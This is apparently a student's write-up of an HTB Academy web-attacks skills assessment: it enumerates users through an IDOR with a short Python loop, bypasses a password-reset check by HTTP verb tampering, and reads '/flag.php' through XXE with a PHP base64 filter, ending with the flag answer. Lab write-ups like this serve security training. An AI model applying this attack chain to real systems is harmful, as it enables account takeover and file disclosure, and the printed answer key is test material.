






# Section 18: Web Attacks - Skills Assessment

Module: 23. Web Attacks

---

## Questions & Answers

### 1. Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'

Context:
- Emunerating the app, there are these routes:
```
/profile.php (USER PROFILE UI)
/settings.php (CHANGE PASSWORD UI)
/api.php/user/<uid> (GET USER PROFILE)
/api.php/token/<uid> (GET USER TOKEN FOR CHANGE PASSWORD REQUEST)
/reset.php (CHANGE THE PASSWORD REQUEST)
/profile.php?logout=1 (LOGOUT)
```
- `IDOR` works in `/api.php/user/<uid>` and `/api.php/token/<uid>`, however I didn't know the administrator's uid, automated script:
```python
import requests

TARGET_URL = "http://154.57.164.82:32746/api.php/user/"

for i in range (1,101):
    res = requests.get(f"{TARGET_URL}{i}")

    print(res.text)
```
```bash
┌─[eu-academy-2]─[10.10.14.37]─[htb-ac-2162140@htb-14bkfga7f9-htb-cloud-com]─[~]
└──╼ [★]$ python3 ./emuneration.py 
<SNIP>
{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
<SNIP>
```
- Found the administrator, get its token:

- With the correct `token` and `uid`, I still cannot change the password, got `Access denied`:

- I tried HTTP Verb Tampering, change the POST request to GET, and successfully change the password

- Login as `a.corrales` with new password, the administrator and find new routes:
```
/event.php (ADD EVENT UI)
/addEvent.php (ADD EVENT REQUEST)
```
- Intercept the `/addEvent.php` request:
```bash
POST /addEvent.php HTTP/1.1
Host: 154.57.164.82:32746
Content-Length: 154
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://154.57.164.82:32746
Referer: http://154.57.164.82:32746/event.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=u86irpggvjgob4ifg70464c72h; uid=52
Connection: keep-alive

<root>
    <name>test</name>
    <details>test</details>
    <date>2026-09-16</date>
</root>
```

- Found that the `name` will be printed back out, use simple XXE injection:

- The result is not printed properly because of the XML limitations, use PHP filter `convert.base64-encode`:

```bash
┌─[eu-academy-2]─[10.10.14.37]─[htb-ac-2162140@htb-14bkfga7f9-htb-cloud-com]─[~/XXEinjector]
└──╼ [★]$ echo -n "PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K" | base64 -d
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

**Answer:** `HTB{m4573r_w3b_4774ck3r}`

---

[Back to Module Index](./README.md)
